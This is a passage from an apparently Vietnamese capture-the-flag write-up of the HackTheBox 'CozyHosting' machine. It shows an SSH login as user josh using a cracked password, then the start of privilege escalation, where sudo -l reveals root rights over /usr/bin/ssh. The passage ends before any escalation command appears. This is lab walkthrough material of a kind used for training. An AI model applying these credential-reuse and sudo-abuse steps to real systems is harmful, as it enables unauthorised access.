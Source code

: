Thử login ssh với user *josh* và password vừa decrypt được

```python
┌──(root㉿kali)-[~]
└─# ssh josh@10.10.11.230
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct  9 03:01:09 PM UTC 2023

  System load:           0.0
  Usage of /:            55.4% of 5.42GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             301
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9679


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Oct  9 14:32:04 2023 from 10.10.14.106
josh@cozyhosting:~$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:~$ 
josh@cozyhosting:~$ ls 
user.txt
```

## Privilege escalation

```python
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
